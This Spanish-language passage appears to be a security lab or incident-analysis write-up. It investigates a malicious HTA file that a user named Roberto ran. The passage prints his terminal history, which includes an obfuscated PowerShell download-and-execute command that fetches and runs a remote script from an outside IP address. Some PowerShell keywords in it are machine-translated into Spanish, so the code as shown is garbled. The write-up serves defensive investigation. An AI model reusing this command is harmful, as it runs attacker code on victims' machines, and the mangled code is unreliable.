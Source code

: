 Como podemos ver, muchos proveedores de seguridad identifican el archivo como malicioso. Decidimos que se necesita más investigación para evaluar la naturaleza y la intención del archivo "Ps1.hta" y su comportamiento cuando se ejecuta. Vayamos a la pestaña Endpoint Security para verificar los comandos y procesos de terminal sospechosos.

Buscamos a Roberto,

![Untitled](imgpablo/129.png)

Nos vamos a su historial:

El historial del terminal de Roberto revela una serie de comandos sospechosos ejecutados el 5 de marzo de 2021 a las 10:30 a.m. Analicemos los comandos.

![Untitled](imgpablo/130.png)

```jsx
C:/Windows/System32/mshta.exe C:/Users/roberto/Desktop/Ps1.hta
```

Este primer comando ejecuta **mshta.exe** con el argumento C:/Users/roberto/Desktop/Ps1.hta. Este argumento se utiliza para abrir y ejecutar el archivo HTA ubicado en el sistema de Roberto.

```jsx
C:/Windows/System32/WindowsPowerShell/v1. 0 /powershell.exe función  H1 ( $i ) { $r = '' ; for ( $n = 0 ; $n -Lt $i .LengtH; $n += 2 ){ $r += [cHar][ int ]( '0x' + $i . Subcadena ( $n , 2 ))} devolver  $r }; $H2 = ( nuevo - objeto ( '{1}{0}{2}' -f 'WebCL' , 'net.' , 'ient' )); $H3 = H1'446f776E' ; $H4 = H1 '6C6f' ; $H5 = H1 '616473747269' ; $H6 = H1 '6E67' ; $H7 = $H3 + $H4 + $H5 + $H6 ; $H8 = $H2 . $H7 ( 'http://193.142.58.23/Server.txt' );iEX $H8
```
